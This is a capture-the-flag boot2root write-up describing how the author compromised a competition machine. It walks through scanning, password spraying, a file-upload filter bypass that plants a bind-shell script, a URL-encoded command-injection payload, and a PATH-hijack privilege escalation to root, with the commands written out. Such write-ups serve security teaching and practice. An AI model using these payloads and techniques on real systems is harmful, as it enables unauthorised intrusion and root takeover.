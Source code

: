 <div style="display:block;text-align:middle"><img align="middle" src="https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F3e30ac37-cb08-4ac9-89d9-73271b6ae425%2Fposter.jpg?id=c0d21156-5af6-4626-8d7d-770a731f728f&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=1250&userId=&cache=v2" border="0" style="width:450px;">

  
It was a boot2root CTF competition Conducted By IIT Bhubaneswar .
#### Machine IP :
```http
: 191.101.3.104
```
### Nmap Scan
```sh
PORT     STATE  SERVICE REASON
22/tcp   open   ssh     syn-ack ttl 50
53/tcp   open   domain  syn-ack ttl 56
80/tcp   open   http    syn-ack ttl 59
443/tcp  open   https   syn-ack ttl 49
1075/tcp closed rdrmshc reset ttl 43
```
so i first tried visiting the port 80

![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fec9f0d5e-cd44-4edc-b53a-b82fa7816b20%2F80.png?id=966259b2-8eca-45f1-a7d3-cc941d0529d2&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
 
it was a basic apache2 homepage , so i skipped
head on to port 443 , there i found this interesting page :

![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F173dd7cd-91f6-4aa8-b484-12a1efd16aca%2F443.png?id=afd219ea-4d74-4281-a82d-8b96b830b22f&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
this looked interesting to me so i fuzzed it & got some endpoints :

```sh
302      GET        1l        4w       23c http://191.101.3.104:443/logout => /
200      GET       29l      120w     1707c http://191.101.3.104:443/
200      GET       51l      122w     1870c http://191.101.3.104:443/maintenance
200      GET       51l      122w     1870c http://191.101.3.104:443/Maintenance
302      GET        1l        4w       23c http://191.101.3.104:443/Logout => /
200      GET       81l      143w     2641c http://191.101.3.104:443/complaints
```
  
`maintenance` & `complaints` endpoints looks very interesting so i visited both & it looked like this :

Maintenance page :
  
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F53b66e65-c7aa-4e06-9bb8-d28f662171d3%2Fmain-login.png?id=bb7a287d-a1ac-4360-b5ee-ce62d23f9731&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=1150&userId=&cache=v2)
  
maintenance page had a login portal i tried password spraying attack on it & it got cracked in seconds
  
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fa5831c61-84af-4e34-b4c7-59ceefe2a508%2Fpassword-spraying.png?id=8186e9f8-54d0-4224-b38c-ef5fea73d8c6&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
so `admin:password1` were the creds for the login page . i successfully logged in to the maintenance page

after loggin in :
  
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6362dc41-51e8-4491-bad3-152548143d4b%2Fmaintenance.png?id=1b2d9c4e-70e5-490a-b882-051b3e2ff9b1&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
 maintenance page had 2 buttons called `Free-up storage` & `Cleanup-cache`
  
 the request for these 2 buttons were :
  
 ![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6d195405-b6a2-4d24-b42e-a3ccbda91ab4%2Fmaitenance-request.png?id=f1e1d9c7-4abb-45b3-a381-9382d027d3c0&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=1630&userId=&cache=v2)
  
 so it gave some idea that i can run some code execution from here
  
  Complaint Page :
  
  ![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F7e2dcb5c-5db2-4ff5-9a79-b09e461cedc4%2Fcomplaints.png?id=9a20ceca-d375-445a-9977-2dde2113bc77&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
when i checked the other endpoint called complaints it had file upload vulnerability
i tried uploading reverse-shell.php but i noticed its using `nodejs` so php rev shell wont work , i took my teammate Raj's help to figure out the shell   part 
so i tried with bash shell , one more thing was there that user can only upload images so i had to do extension bypass using burp :
 
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fa914d3b8-0f21-415f-b121-db1e2b8a63dc%2Ffoothold.png?id=a1572433-0fab-4239-8b8a-a8c9214b1ff8&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
here i used bind shell because due to some reasons my rev shell wasnt working & used ports over 1024 as they are reserved ports & they need sudo perm in linux if u want to listen/emit on them , so basically i changed the extension from `foothold.sh.jpg` to `foothold.sh` here & it bypassed the filter & got uploaded as a sh script . the path it got uploaded to was ./images  

![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F9ccb93db-152d-44b5-93b3-dc212a69c8a0%2Fuploads-dir.png?id=e220c5a2-64ed-4d1b-b0b3-bffe03a98475&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=1060&userId=&cache=v2)
  
so my shell got uploaded but now i need to trigger it so i went back to maintenance page where i had a param which was executing. i knew the path now so i used && with url encoded , typed bash to invoke my script `[foothold.sh](http://foothold.sh)` 

so the actual payload was :
```sh
script_to_run=Cleanup.out %26%26 bash ./images/foothold.sh %3c%3c
```

& we got shell yay :
  
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fa2b3516a-20e2-4738-92b4-fbfda34ca98f%2Ffooldhold2.png?id=cc0fdffd-dc73-4158-a82e-dcc6106b1c29&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)

## PrivEsc

we are logged in as guest user now we need to be root
so i did manual enumeration of privesc 
i found out `/home/node/webapp/scripts/cleanup.sh` is `suid` bin & later on playing with that folder i found out its leading to path injection , where `apt-get` binary is called by the cleanup.sh program which was ran by root . it gave me the idea of path Injection 

#### Path Injection to root
```sh
step 1 : echo '#!/bin/bash' > /tmp/apt-get
step 2 : echo '/bin/bash -p' >> /tmp/apt-get
step 3 : chmod +x /tmp/apt-get
step 4 : export PATH=/tmp:$PATH
step 5 : cd /home/node/webapp/scripts/
step 6 : ./Cleanup.out

Boom Rooted
```
& We got root :)

![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fc1cb6a30-a0d2-4a77-8bbb-53bed1161483%2Froot-privesc.png?id=ffa44f9a-dcb1-4bfc-8ce6-e183fb68e5bc&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
#### P.S : Won this CTF :)
